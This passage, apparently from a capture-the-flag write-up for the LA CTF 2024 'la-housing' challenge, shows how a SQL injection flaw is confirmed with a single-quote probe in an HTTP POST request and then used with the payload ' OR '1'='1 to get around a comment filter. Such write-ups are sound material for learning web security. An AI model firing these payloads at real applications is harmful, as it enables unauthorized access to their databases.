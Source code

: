 ## Exploitation

**To do so, we first test the SQL injection vulnerability by using a single quote (`'`) in one of those parameters:**
```http
POST /submit HTTP/2
Host: la-housing.chall.lac.tf
Content-Type: application/x-www-form-urlencoded

name=siunam&guests=No+guests+at+all&neatness=Messy+is+ok&sleep=2am-4am&awake='
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/LA-CTF-2024/images/Pasted%20image%2020240219112000.png)

As expected, it respond us with HTTP status `500 Internal Server Error`, which means it's really vulnerable to SQL injection.

**Then, to overcome the comment filter, we can just leave the single quote open, like this:** 
```sql
' OR '1'='1
```
